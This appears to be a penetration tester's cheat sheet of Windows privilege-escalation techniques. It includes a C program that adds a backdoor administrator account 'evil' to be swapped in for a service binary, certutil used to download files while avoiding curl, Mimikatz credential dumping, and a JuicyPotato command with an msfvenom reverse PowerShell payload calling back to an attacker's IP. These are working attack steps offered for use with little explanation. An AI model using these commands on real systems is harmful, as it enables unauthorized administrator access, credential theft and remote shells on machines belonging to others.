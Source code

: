 Enumerate WIndows Updates:
`wmic qfe get Caption, Description, HotFixID, InstalledOn`

Check for folders/files Everyone can write to:
`Get-ChildItem "C:\Program Files" -Recurse | Get-ACL | ?{$_.AccessToString -match "Everyone\sAllow\s\sModify"}`

List drivers:
`driverquery.exe /v /fo csv | ConvertFrom-CSV | Select-Object ‘Display Name’, ‘Start Mode’, Path Get-WmiObject Win32_PnPSignedDriver | Select-Object DeviceName, DriverVersion, Manufacturer | Where-Object {$_.DeviceName -like "*VMware*"}`

Check these reg keys:
`reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer`
`reg query HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\Installer`
 (If either of these are set to 1, you can run any msi with elevated permissions.  Make an MSI and execute it.  There ya go)
 
 **PRIVESC TECHNIQUES FOR WINDOWS**
 
 UAC Bypassing...
 
 Replace a service exe and either restart the service or reboot (shutdown /r /t 0) 
 
 ``` c
	#include <stdlib.h>
	
	int main () 
	{ 
	int i;
	
	i = system ("net user evil Ev!lpass /add");
	i = system ("net localgroup administrators evil /add");
	
	return 0; 
	}
```

Compile the C Program above, and you can use it to create a new admin user.
`-i686-w64-mingw32-gcc adduser.c -o adduser.exe`

DON'T USE `CURL` IF YOU CAN HELP IT, TRY `CERTUTIL`:
`certutil.exe -urlcache -split -f <http://FILE> <OUTPUTFILE>`

Use Mimikatz `lsadump`
Consider searching for source code on weird web apps, see if you can find sections for usernames and passwords, then search on the machine.

[Impersonating Privileges wit Juicy Potato on Medium](https://medium.com/r3d-buck3t/impersonating-privileges-with-juicy-potato-e5896b20d505)
JUICYPOTATO TOOL IF YOU HAVE *SEIMPERSONATE*
- `\\[IP]\share\JuicyPotato.exe -l 4444 -p shell.bat -t *`
- `msfvenom -p cmd/windows/reverse_powershell LHOST=[IP] LPORT=4444 > shell.bat`
`HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\LocalAccountTokenFilterPolicy`


In PowerShell, `ls` is an alias for `Get-ChildItem` or `gci`. On Windows, it’s often a good idea to run that with `-force`, kind of like running `ls -a`.
